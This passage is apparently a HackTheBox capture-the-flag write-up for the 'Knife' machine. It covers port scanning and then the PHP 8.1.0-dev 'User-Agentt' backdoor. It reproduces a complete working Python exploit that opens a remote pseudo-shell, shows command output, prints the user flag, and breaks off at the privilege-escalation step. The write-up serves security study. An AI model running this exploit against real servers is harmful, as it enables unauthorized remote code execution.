 # Knife

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6b047d79-69bf-4a4d-aec3-f51ced0790a9)


> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.242 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 23:19 PDT
Nmap scan report for 10.10.10.242
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.65 seconds
```

1. Found 2 ports open, and the machine is running a web application with PHP version 8.1.0.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6970c5b2-6643-4afc-ae61-ce75826b97ca)


2. Turns out the PHP version is vulnerable to Backdoor RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fe82c05d-6479-4eae-90d8-c06224a807d2)


3. Based from this exploit.db documentation --> `https://www.exploit-db.com/exploits/49933`, we can add **User-Agentt** at the request header to gain RCE.
4. Let's use the script provided there.

> SCRIPT FROM DOCUMENTATION

```py
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

> RESULT

```
┌──(brandy㉿bread-yolk)-[~/machine_knife]
└─$ python3 backdoor_rce.py
Enter the full host url:
http://10.10.10.242 

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ whoami
james

$
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f43c6df3-d20d-4f6a-826b-9d87364c4215)


## USER FLAG

```
b18383f88c92034b8db5157c1c8c28fb
```

5. To get the root flag, let's run `sudo -l` to see if there is any actions we can do with
